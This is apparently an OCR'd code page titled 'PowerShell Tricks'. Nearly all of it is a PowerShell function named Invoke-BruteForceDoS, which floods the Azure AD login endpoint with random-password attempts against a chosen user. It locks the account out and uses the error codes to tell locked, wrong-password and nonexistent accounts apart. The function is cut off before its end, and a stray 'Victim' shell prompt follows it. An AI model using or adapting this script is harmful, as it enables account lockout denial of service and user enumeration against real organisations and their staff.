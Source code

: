 # PowerShell Tricks:

## PowerShell Azure DoS:

```powershell
function Invoke-BruteForceDoS
{
    Param(
            [Parameter(Mandatory=$True)]
            [string]$User
        )
    while($true)
    {
        $randomGuid = New-Guid
        $body = @{
            "resource"   = $randomGuid
            "client_id"  = $randomGuid
            "grant_type" ="password"
            "username"   = $User
            "password"   = $randomGuid
            "scope"      = "openid"
        }

        try
        {
            $response=Invoke-RestMethod -UseBasicParsing -Uri "https://login.microsoftonline.com/common/oauth2/token" -ContentType "application/x-www-form-urlencoded" -Method POST -Body $body
        }
        catch
        {
            $stream = $_.Exception.Response.GetResponseStream()
            $responseBytes = New-Object byte[] $stream.Length

            $stream.Position = 0
            $stream.Read($responseBytes,0,$stream.Length) | Out-Null
            
            $errorDetails = [text.encoding]::UTF8.GetString($responseBytes) | ConvertFrom-Json | Select -ExpandProperty error_description

            $datacenter = "{0,-6}" -f ($_.Exception.Response.Headers["x-ms-ests-server"].Split(" ")[2])
        }
            
        # Parse the error code.
        if(!$exists -and $errorDetails)
        {
            if($errorDetails.startsWith("AADSTS50053")) # The account is locked, you've tried to sign in too many times with an incorrect user ID or password.
            {
                Write-Host "$($datacenter): [ LOCKED ] $user" -ForegroundColor Red
            }
            elseif($errorDetails.StartsWith("AADSTS50126")) # Error validating credentials due to invalid username or password.
            {
                Write-Host "$($datacenter): [WRONGPWD] $user" -ForegroundColor Gray
            }
            elseif($errorDetails.StartsWith("AADSTS50034")) # The user account {identifier} does not exist in the {tenant} directory. To sign into this application, the account must be added to the directory.
            {
                Write-Host "$($datacenter): [NOTFOUND] $user" 
            }
```

[VICTIM]: PS C:\Users\Victim\Documents>